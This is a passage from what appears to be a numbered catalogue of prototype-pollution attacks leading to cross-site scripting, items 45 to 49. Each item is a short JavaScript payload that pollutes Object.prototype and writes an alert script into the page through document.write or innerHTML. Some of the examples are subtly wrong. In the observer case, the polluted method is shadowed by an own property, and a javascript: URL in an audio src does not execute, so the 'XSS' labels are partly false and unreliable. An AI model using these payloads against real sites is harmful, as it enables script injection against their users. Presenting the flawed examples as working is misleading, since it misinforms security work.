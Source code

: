 
### 45. Polluted Clipboard Data
**Scenario**: Polluted clipboard data rendered unsafely.
```javascript
Object.prototype.clipboardData = '<script>alert("XSS")</script>';
const evt = {};
document.onpaste = (e) => document.write(e.clipboardData);
document.dispatchEvent(new Event('paste')); // XSS
```

---

### 46. Polluted Drag Event
**Scenario**: Polluted drag data triggers XSS.
```javascript
Object.prototype.dataTransfer = { getData: () => '<script>alert("XSS")</script>' };
const evt = {};
document.ondrop = (e) => document.write(e.dataTransfer.getData('text'));
document.dispatchEvent(new Event('drop')); // XSS
```

---

### 47. Polluted Intersection Observer
**Scenario**: Polluted observer callback injects script.
```javascript
Object.prototype.observe = () => document.write('<script>alert("XSS")</script>');
const observer = { observe: () => {} };
observer.observe = observer.observe || function() {};
observer.observe(document.body); // XSS
```

---

### 48. Polluted Audio Source
**Scenario**: Polluted audio source executes script.
```javascript
Object.prototype.src = 'javascript:alert("XSS")';
const audio = {};
document.body.innerHTML = `<audio src="${audio.src}"></audio>`; // XSS
```

---

### 49. Polluted iframe Sandbox
**Scenario**: Polluted sandbox attribute bypass leads to XSS.
```javascript
Object.prototype.sandbox = 'allow-scripts';
Object.prototype.srcdoc = '<script>alert("XSS")</script>';
const frame = {};
document.body.innerHTML = `<iframe sandbox="${frame.sandbox}" srcdoc="${frame.srcdoc}"></iframe>`; // XSS
```

---